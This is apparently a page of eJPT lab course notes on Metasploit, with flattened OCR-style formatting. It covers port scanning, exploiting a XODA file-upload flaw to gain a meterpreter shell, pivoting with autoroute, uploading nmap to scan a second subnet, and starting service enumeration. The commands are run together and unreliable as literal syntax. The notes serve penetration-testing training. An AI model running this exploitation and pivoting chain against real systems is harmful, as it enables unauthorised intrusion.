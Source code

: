 service postgresql start && msfconsole -qworkspace -a Port\_scansearch portscanuse auxiliary/scanner/portscan/tcpset RHOSTS 192.41.167.3runcurl 192.41.167.3

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-f9bb00e236dcbcacb2dd85e5f4f8181ca1810f97%2Fimage-20230412220747788.png?alt=media" alt=""><figcaption></figcaption></figure>

* Exploitation

search xodause exploit/unix/webapp/xoda\_file\_uploadset RHOSTS 192.41.167.3set TARGETURI /run

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-be8eaadffd478211a6c3c787bbd54c2ffb0dd4e4%2Fimage-20230412221111369.png?alt=media" alt=""><figcaption></figcaption></figure>

* Perform a network scan on the second target

meterpreter > shell/bin/bash -iifconfig# 192.26.158.2 Local Lan subnet IPexit

* Add the route within `meterpreter` and background the meterpreter session

run autoroute -s 192.26.158.2backgroundsearch portscanuse auxiliary/scanner/portscan/tcpset RHOSTS 192.26.158.3run# the port scan will be performed through the first target system using the route\[+] 192.26.158.3: - 192.26.158.3:22 - TCP OPEN\[+] 192.26.158.3: - 192.26.158.3:21 - TCP OPEN\[+] 192.26.158.3: - 192.26.158.3:80 - TCP OPEN

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-67e7adb134ca47fb1df4ff6f49abb7370d8802a9%2Fimage-20230412221528898.png?alt=media" alt=""><figcaption></figcaption></figure>

* Upload and run `nmap` against the second target, from the first target machine

sessions 1upload /root/tools/static-binaries/nmap /tmp/nmapshell/bin/bash -icd /tmpchmod +x ./nmap./nmap -p- 192.26.158.321/tcp open ftp22/tcp open ssh80/tcp open http

> 📌 There are **`3`** running services on the second target machine.

**UDP Scan**

* Into `msfconsole`

search udp\_sweepuse auxiliary/scanner/discovery/udp\_sweepset RHOSTS 192.41.167.3run

#### ​[Services Enumeration](https://www.offsec.com/metasploit-unleashed/service-identification/)​ <a href="#services-enumeration" id="services-enumeration"></a>

> 📌🔬 Check the [Enumeration Section labs here](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration) for basic `nmap` enumeration.

Next, there are some MSF commands and modules for **service enumeration** on the same labs from the Enumeration Section.

* Auxiliary modules can be used for enumeration, brute-force attacks, etc

❗📝 **On every attacker machine, run this command to start `msfconsole`:**service postgresql start && msfconsole -q

* Setup a **global variable**. This will set the RHOSTS option for all the modules utilized:

setg RHOSTS \<TARGET\_IP>

**​**[**FTP**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ftp-enum)**​**

> **`auxiliary/scanner/ftp/ftp_version`**
